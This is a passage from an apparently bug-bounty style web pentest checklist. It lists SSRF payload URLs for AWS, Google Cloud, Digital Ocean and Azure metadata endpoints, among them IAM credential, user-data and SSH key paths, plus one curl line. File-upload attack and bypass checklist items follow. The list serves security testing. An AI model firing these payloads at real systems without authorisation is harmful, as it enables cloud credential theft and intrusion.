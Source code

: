         ```markup
        <http://instance-data>
        <http://169.254.169.254>
        <http://169.254.169.254/latest/user-data>
        <http://169.254.169.254/latest/user-data/iam/security-credentials/>[ROLE NAME]
        <http://169.254.169.254/latest/meta-data/>
        <http://169.254.169.254/latest/meta-data/iam/security-credentials/>[ROLE NAME]
        <http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance>
        <http://169.254.169.254/latest/meta-data/ami-id>
        <http://169.254.169.254/latest/meta-data/reservation-id>
        <http://169.254.169.254/latest/meta-data/hostname>
        <http://169.254.169.254/latest/meta-data/public-keys/>
        <http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key>
        <http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key>
        <http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy>
        <http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access>
        <http://169.254.169.254/latest/dynamic/instance-identity/document>
        ```
    *   Google Cloud

        ```markup
        <http://169.254.169.254/computeMetadata/v1/>
        <http://metadata.google.internal/computeMetadata/v1/>
        <http://metadata/computeMetadata/v1/>
        <http://metadata.google.internal/computeMetadata/v1/instance/hostname>
        <http://metadata.google.internal/computeMetadata/v1/instance/id>
        <http://metadata.google.internal/computeMetadata/v1/project/project-id>
        ```
    *   Digital Ocean

        ```markup
        curl <http://169.254.169.254/metadata/v1/id>
        <http://169.254.169.254/metadata/v1.json>
        <http://169.254.169.254/metadata/v1/> 
        <http://169.254.169.254/metadata/v1/id>
        <http://169.254.169.254/metadata/v1/user-data>
        <http://169.254.169.254/metadata/v1/hostname>
        <http://169.254.169.254/metadata/v1/region>
        <http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address>
        ```
    *   Azure

        ```
        <http://169.254.169.254/metadata/v1/maintenance>
        <http://169.254.169.254/metadata/instance?api-version=2017-04-02>
        <http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text>
        ```
  * \[ ] Bypassing via open redirection
* **File Upload Testing**
  * \[ ] upload the malicious file to the archive upload functionality and observe how the application responds
  * \[ ] upload a file and change its path to overwrite an existing system file
  * \[ ] Large File Denial of Service
  * \[ ] Metadata Leakage
  * \[ ] ImageMagick Library Attacks
  * \[ ] Pixel Flood Attack
  * Bypasses
    * \[ ] Null Byte (%00) Bypass
    * \[ ] Content-Type Bypass
    * \[ ] Magic Byte Bypass
    * \[ ] Client-Side Validation Bypass
    * \[ ] Blacklisted Extension Bypass
    * \[ ] Homographic Character Bypass
* **CAPTCHA Testing**